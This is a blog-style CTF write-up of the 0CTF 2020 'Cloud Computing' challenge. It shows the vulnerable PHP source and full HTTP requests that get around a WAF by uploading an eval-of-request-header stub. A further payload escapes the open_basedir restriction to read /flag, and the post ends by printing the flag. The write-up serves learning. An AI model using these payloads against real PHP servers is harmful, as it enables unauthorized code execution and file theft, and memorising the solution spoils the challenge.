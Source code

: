 ```yaml
---
layout: post
title: 0CTF Quals 2020 - Misc
published: true
categories: [Misc, Web]
excerpt: I participated with CTF.SG again, but my computer actually died during the first 40 hours so I didn't have time to help out at all, except posting encouraging stuff in our chat. Although I titled this 'Misc', I only tried this one challenge as it looked like the it was the second easiest one after 'easyphp'. I plan to try more before it gets taken down - so watch this space for other writeups!
---
```


I participated with CTF.SG again, but my computer actually died during the first 40 hours so I didn't have time to help out at all, except posting encouraging stuff in our chat.

Although I titled this `Misc`, I only tried this one challenge as it looked like the it was the second easiest one after `easyphp`. As the challenge site is still up, I plan to try more before it gets taken down - so watch this space for other writeups!

---

## Misc

---

# Cloud Computing

#### Category: Misc | 42 solves | 211 points

<details>
  <summary>Challenge Description</summary>
  
  Welcome to our new cloud function computing platform, enjoy here. http://pwnable.org:47780/
</details>

This challenge provides all the source code on the main page, so no bruteforcing is required.

```php
<?php

error_reporting(0);

include 'function.php';

$dir = 'sandbox/' . sha1($_SERVER['REMOTE_ADDR'] . $_SERVER['HTTP_USER_AGENT']) . '/';

if(!file_exists($dir)){
  mkdir($dir);
}

switch ($_GET["action"] ?? "") {
  case 'pwd':
    echo $dir;
    break;
  case 'upload':
    $data = $_GET["data"] ?? "";
    if (waf($data)) {
      die('waf sucks...');
    }
    file_put_contents("$dir" . "index.php", $data);
  case 'shell':
    initShellEnv($dir);
    include $dir . "index.php";
    break;
  default:
    highlight_file(__FILE__);
    break;
}
```

There are 3 endpoints: 

- `pwd` that returns the current directory
- `upload` where you can test the WAF by writing data to `index.php`
- `shell` where you might be able to execute RCE if you have the correct payload. 

Actually, I never found the use for `shell` as everything that could be done there was also doable in `upload` for this challenge.

The path in `pwd` is generated on Line 7 - it's the SHA1 hash of your IP and your User Agent, presumably to prevent people from piggybacking and getting the flag by luck. 

So the first thing I did was to fuzz the WAF with `[A-Za-z0-9]` and all the default special characters - so it's less than 100 requests and *probably* within limits of what is allowed, and I found out that it seems to block all uppercase letters, `'`,  backticks, spaces, `|`, `+`, `-` and `.`. Yes, dots too. So with this, we thought that the WAF was too restrictive and the goal should be to bypass the WAF completely, instead of acting within its restrictions.

As we controlled the headers, as shown by how our User-Agent gets processed - we can try to eval the header and thus remove the WAF restriction. Thus we found `eval(end(getallheaders()));`, which we can append as a value to the `data` parameter in `upload` by adding the PHP tag with a newline character, like this: `%3C?php%0a`, which translates to `<?php\n` when URL decoded. 

So we first tried to dump all defined variables by doing this:

```
GET /?action=upload&data=%3C?php%0aeval(end(getallheaders())); HTTP/1.1
Host: pwnable.org:47780
User-Agent: My name is Isopach and I'm a newbie
Connection: close
z: var_dump(get_defined_vars());
    
    
```

which returned the various variables like `$_SERVER`. So we know that we're on the right track.

Moving on, we get `get_current_user()` and find that we are actually `root`, so we should have write privileges, but running `var_dump(is_writable('.'));` returned `bool(false)`. Since we cannot write anything, and with the `open_basedir` restriction in effect, it would be near impossible to traverse out of our current directory. 

And so we got stuck and went to sleep.

So anyway after the CTF ended we read a Chinese writeup and discovered that it was a false negative. The directory was actually writeable. And since we were root it would not make sense for the directory to be not-writeable.

With this in mind, solving was easy - we just have to make a directory and use the `open_basedir` bypass as it was detailed on [Shpik's blog (Korean)](http://blog.shpik.kr/2019/PHP_Open_basedir_Bypass/). By setting `open_basedir` to the directory above the one we control, we can escape (traverse) to the root directory using `chdir('..')` and go to any path from there.

So with this payload:

```
POST /?action=upload&data=%3C?php%0aeval(end(getallheaders())); HTTP/1.1
Host: pwnable.org:47780
User-Agent: My name is Isopach and I'm a newbie
Connection: close
z: error_reporting(E_ALL);mkdir('sandbox/f67debcea755ae8b6050072910fc1a99bddfe823/isopach');chdir('sandbox/f67debcea755ae8b6050072910fc1a99bddfe823/isopach');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');readfile('/flag');
     
     
```

We were able to get the flag!

![Cloud Computing Flag?](../assets/0ctf-quals-2020/Cloud-Computing-Flag.png)

... or not, since the flag appears to be an `.img` file. So we can't read it directly.

I guess this is the part it stops being `Web` and becomes `Forensics` or `Misc`. You can read my other Forensics blog posts for details on that, but basically all we have to do is to recover the `img` in the usual way - either by Autopsy or Foremost - and we did just that. 

In it, there was an image with the flag.

<details>
  <summary>FLAG</summary>
  
  flag{do_u_like_cloud_computing}
</details>

***
